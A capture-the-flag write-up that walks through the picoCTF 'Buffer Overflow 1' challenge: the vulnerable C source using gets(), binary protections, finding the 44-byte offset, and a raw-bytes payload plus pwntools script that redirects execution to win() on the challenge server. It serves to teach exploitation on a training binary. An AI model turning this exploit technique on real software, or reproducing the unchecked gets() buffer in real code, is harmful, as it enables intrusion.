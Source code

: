 # Buffer Overflow 1

**Challenge link:** [picoCTF – Buffer Overflow 1](https://play.picoctf.org/practice/challenge/258?category=6&originalEvent=70&page=1)

---

## Challenge information

```text
Level:   Medium
Tags:    Binary‑Exploitation, picoCTF 2022, browser_webshell_solvable
Author:  Sanjay C / Palash Oswal

Description:

Control the return address.

Now we're cooking! You can overflow the buffer and return to the `win` function in the program.

You can view the source here and connect with it using:
    nc saturn.picoctf.net 54523
```

---

## Manual Exploitation

The challenge archive contains the following files:

```bash
$ ls -lah
 drwxrwxr-x 3 ap   ap   4.0K Apr 24 13:05 .
 drwxrwxrwt 21 root root 4.0K Apr 24 13:02 ..
 -rw-rw-r-- 1 ap   ap    16K Apr 24 11:09 vuln
 -rw-rw-r-- 1 ap   ap   769B Apr 24 11:09 vuln.c
```

`vuln` is a 32‑bit ELF binary that is **not stripped**:

```bash
$ file vuln
vuln: ELF 32‑bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, *not stripped*
```

> A binary that is *not stripped* still contains symbol information for functions and globals, which is helpful during analysis.

The source code is provided in `vuln.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf, FLAGSIZE, f);
  printf("%s", buf);
}

void vuln() {
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers crossed... Jumping to 0x%x\n",
         get_return_address());
}

int main(int argc, char **argv) {
  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`main` simply calls `vuln()`. `vuln()` is vulnerable because it declares a 32‑byte buffer and then uses the unsafe `gets`, allowing a classic buffer‑overflow. The goal is a *ret2win*: overwrite the saved return address so the program branches to `win()`.

> `gets(char *s)` reads a line from *stdin* into `s` until a newline or EOF and **performs no bounds checking**.

### Binary security settings

```bash
$ checksec --file=vuln
[*] '/tmp/ws/vuln'
    Arch:     i386‑32‑little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled (GNU_STACK executable)
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
    Stripped: No
```

No stack canary, NX is off, and there is no PIE—perfect for a beginner exploit.

### Determining the offset

Interact with the remote service:

```bash
$ nc saturn.picoctf.net 52316
Please enter your string:
AAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers crossed... Jumping to 0x804932f
```

Locally we brute‑force the offset. Because the buffer is 32 bytes, we start there and increment by 4 bytes:

```bash
$ chmod u+x vuln
$ python3 -c 'print("A"*32)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

$ python3 -c 'print("A"*36)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

$ python3 -c 'print("A"*40)' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
Segmentation fault (core dumped)
```

The **Jumping address** is at the same location `0x804932f`. Where points this address?

```bash
$ objdump -d -M intel vuln | grep 804932f                                                                                                                                                          
 804932f:       b8 00 00 00 00          mov    eax,0x0                                                                                                                                                                    
$ objdump --disassemble=main -M intel vuln | grep 804932f                                                                                                                                          
 804932f:       b8 00 00 00 00          mov    eax,0x0                                                                                                                                                                    
$ objdump --disassemble=main -M intel vuln 
 ...
 8049327:       83 c4 10                add    esp,0x10
 804932a:       e8 52 ff ff ff          call   8049281 <vuln>
 804932f:       b8 00 00 00 00          mov    eax,0x0          # It points here, the instruction executed after the call to vuln.
 ...
```

Instead, the **Segmentation Fault** suggests that the paylod affect the vuln stack frame information.

Continue trying until the **saved EIP** is hit.

```bash
$ python3 -c 'print("A"*48)' | ./vuln
Jumping to 0x41414141
Segmentation fault
```
At 48 bytes we overwrite EIP with `0x41414141`:

Thus, 44 bytes reach the *saved EIP*; the following 4 bytes replace it.

### Address of `win()`

```bash
$ readelf -s vuln | grep " win$"
    63: 080491f6   139 FUNC GLOBAL DEFAULT 13 win
```

Little‑endian representation: `\xf6\x91\x04\x08`.

### Crafting the payload

Python 3’s `print` uses UTF‑8:

```bash
$ python3 -c 'print("A"*44+"\xf6\x91\x04\x08")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö

$ python3 -c 'print("A"*44+"\xf6\x91\x04\x08")' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 c3b6 c291  AAAAAAAAAAAA....
00000030: 0408 0a                                  ...
```

So we must write raw bytes via `sys.stdout.buffer`:

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44+b"\xf6\x91\x04\x08")' | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 f691 0408  AAAAAAAAAAAA....
```

Submit the payload to `vuln`.

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\xf6\x91\x04\x08")' | ./vuln
Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.
```

> For more references about Python3 `print` binary data, follow the [https://bugs.python.org/issue34437](https://bugs.python.org/issue34437).

### Exploit script

```python
#!/usr/bin/env python3

from pwn import remote, p32

HOST, PORT = 'saturn.picoctf.net', 54523
r = remote(HOST, PORT)

print(r.recvline())
payload = b'A' * 44 + p32(0x080491f6)

r.sendline(payload)
print(r.recvall().decode())
```

Running it retrieves the flag:

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 54523: Done
b'Please enter your string: \n'
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port 54523
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{XXXXXXXXX_XXX_XXXX_XXXXXXXX}
```

---

ap3zzi